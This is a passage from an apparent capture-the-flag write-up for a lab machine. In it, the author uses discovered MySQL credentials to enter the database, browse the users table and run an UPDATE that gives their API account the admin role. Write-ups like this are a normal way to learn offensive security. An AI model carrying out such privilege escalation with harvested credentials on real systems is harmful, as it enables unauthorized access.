 ```node

    return res.json({Status: "Error", Message: "Parameter text not found"});
}

module.exports = { messages_send };
```

## Getting API Admin Role

Using our discovered mysql credentials we are going to elevate the permissions of our api user that we created earlier

```bash
mysql -u webapp_user -p

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| developers         |
| forum              |
| information_schema |
| mysql              |
| performance_schema |
| pollution_api      |
| webapp             |
+--------------------+

MariaDB [(none)]> use pollution_api;
Database changed

MariaDB [pollution_api]> show tables;
+-------------------------+
| Tables_in_pollution_api |
+-------------------------+
| messages                |
| users                   |
+-------------------------+

MariaDB [pollution_api]> select * from users
    -> ;
+----+----------+----------+------+---------------------+---------------------+
| id | username | password | role | createdAt           | updatedAt           |
+----+----------+----------+------+---------------------+---------------------+
|  1 | mrk1     | xxxx     | user | 2022-12-13 03:10:01 | 2022-12-13 03:10:01 |
|  2 | mrk2     | xxxx     | user | 2022-12-13 03:10:09 | 2022-12-13 03:10:09 |
|  3 | test     | xxxx     | user | 2022-12-13 03:28:25 | 2022-12-13 03:28:25 |
+----+----------+----------+------+---------------------+---------------------+

MariaDB [pollution_api]> update users set role='admin' where id=1;
Query OK, 1 row affected (0.002 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```
